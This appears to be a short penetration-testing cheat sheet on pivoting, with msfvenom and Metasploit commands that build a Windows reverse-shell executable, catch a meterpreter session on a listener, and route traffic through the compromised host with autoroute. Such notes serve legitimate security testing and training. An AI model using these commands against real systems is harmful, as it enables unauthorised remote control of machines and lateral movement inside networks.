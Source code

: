 
#




## Pivoting with proxychains

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```
Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```


### Auto-Routing our Traffic

```metasploit
use post/multi/manage/autoroute
set SESSION 1
set subnet $IP
exploit
```

###
